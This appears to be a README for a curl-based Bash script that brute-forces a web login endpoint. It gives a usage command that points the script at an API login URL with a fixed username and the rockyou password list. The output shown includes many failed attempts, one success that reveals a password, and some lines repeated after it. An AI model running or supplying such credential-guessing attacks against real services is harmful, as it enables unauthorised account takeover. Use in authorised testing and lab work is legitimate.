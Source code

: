 # Simple brute force script using curl with automation


Example

./login-bruteforce.sh -u "http://secb/api/Auth/Login" -U "adomin@ssrd.io" -P /usr/share/wordlists/rockyou.txt

output:
    Failed login with Username: adomin@ssrd.io Password: tigger (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: sunshine (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: chocolate (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: password1 (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: soccer (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: anthony (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: friends (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: butterfly (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: purple (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: angel (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: jordan (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: liverpool (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: justin (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: loveme (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: fuckyou (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: 123123 (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: football (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: secret (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: andrea (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: carlos (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: jennifer (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: joshua (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: bubbles (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: 1234567890 (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: superman (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: hannah (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: amanda (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: loveyou (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: pretty (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: basketball (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: andrew (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: angels (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: tweety (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: flower (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: playboy (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: hello (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: elizabeth (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: hottie (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: tinkerbell (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: charlie (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: samantha (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: barbie (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: chelsea (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: lovers (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: teamo (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: jasmine (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: brandon (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: 666666 (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: shadow (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: melissa (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: eminem (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: matthew (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: robert (HTTP status: 400)
    Success! Username: adomin@ssrd.io Password: snailmail
    Failed login with Username: adomin@ssrd.io Password: eminem (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: matthew (HTTP status: 400)
    Failed login with Username: adomin@ssrd.io Password: robert (HTTP status: 400)

# Dont forget to chmod u+x the script before using

# then run the script with ./login-bruteforce.sh